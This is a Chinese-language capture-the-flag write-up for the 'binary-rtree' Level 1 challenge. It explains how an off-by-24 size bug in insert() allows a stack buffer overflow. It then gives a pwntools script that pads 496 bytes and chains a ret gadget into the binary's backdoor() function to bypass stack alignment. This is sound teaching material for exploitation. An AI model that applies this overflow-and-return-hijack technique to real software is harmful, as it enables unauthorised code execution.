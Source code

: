 ## 生活在树上 | binary-rtree

### Level 1

遇事不决 IDA。

在代码中观察到许多 `*(A + n)` 的结构，这种结构一般就是 `struct`，如果能还原 `struct` 类型定义，那么代码会清晰很多。

在 `print_node` 函数中可以还原出 `struct node` 的结构（注意 struct 的内存对齐规则）：
```c
struct node {
	int key;		// node + 0
	char *data;		// node + 8
	int size;		// node + 16
};
```

在 IDA 的 Local Types 视图加入这个结构体的定义，然后把代码中对应指针的类型改为 `struct node *`，就能自动转换成结构体取成员的格式。

然后关注代码，`main()` 中定义了一个长 512 的数组用于存放 node 和 data 数据。

![lv1-node](binary-rtree/lv1-node.png)

问题出在 `insert()` 函数中，将 `node.size` 设为了输入 +24（包含了 node 结构自身的 24B），然后再进行输入，也就是多输入了 24B，可以利用这个进行栈溢出。

进入 IDA 的调试页面，在 main 函数的返回指令 `retn` 处设置断点。

![lv1-stack](binary-rtree/lv1-stack.png)

可以看到，返回地址在 `7B8` 处，而 buffer 在 `5B0` 处，根据计算可以知道，我们需要在输入的 data 处填充 496（0x1e0） 个字符后放入返回地址即可。

返回地址直接写入 `backdoor()` 函数的地址，由于没有开启 PIE 防护，地址是固定的。

如果这么尝试，很有可能会在进入后门函数之后报错 (-11 SIGSEGV)。这在去年某道题也出现过，这个原因是进入某函数的时候需要栈指针对 16B 对齐。

那解决的方法也很简单，先让函数 retn 到一个 retn 指令（这里就有现成的，`0x4015ED`），再由那个指令去跳转到后门函数，这样多执行了一次 pop 操作，就能把栈对齐。

```python
r.sendline(b"1")
print(r.recv())
r.sendline(b"1")
print(r.recv())
r.sendline(b"488")
print(r.recv())

elf = ELF("./rtree")
addr = elf.symbols["backdoor"]
ret = elf.symbols['main']+0xA7

payload = b"x" * 496 + ret.to_bytes(length=8, byteorder='little') + addr.to_bytes(length=8, byteorder='little')

r.sendline(payload)
print(r.recv())
r.sendline(b"4")
```
